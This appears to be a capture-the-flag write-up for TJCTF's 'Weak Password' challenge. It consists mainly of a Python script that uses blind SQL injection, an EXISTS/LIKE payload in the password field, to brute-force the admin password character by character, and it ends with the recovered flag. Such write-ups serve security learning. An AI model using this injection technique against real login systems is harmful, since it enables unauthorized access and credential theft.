 # Weak Password

We can use the SQL LIKE clause to bruteforce the password one character at a time.

```python
import requests

url = 'https://weak_password.tjctf.org/login'
alphabet = 'abcdefghijklmnopqrstuvwxyz'

print('Bruteforcing password: ', end='', flush=True)
for i in range(100):
    for char in alphabet:
        r = requests.post(url, data = {'username': 'test', 'password': f"a' OR EXISTS(SELECT * FROM `userandpassword` WHERE username='admin' AND password LIKE '{'_'*i}{char}%') AND ''='"})
        if 'Wrong' not in r.text:
            print(char, end='', flush=True)
            break
    else:
        print('\nPassword found')
```

The password is 'blinded', the flag is:

## tjctf{blinded}


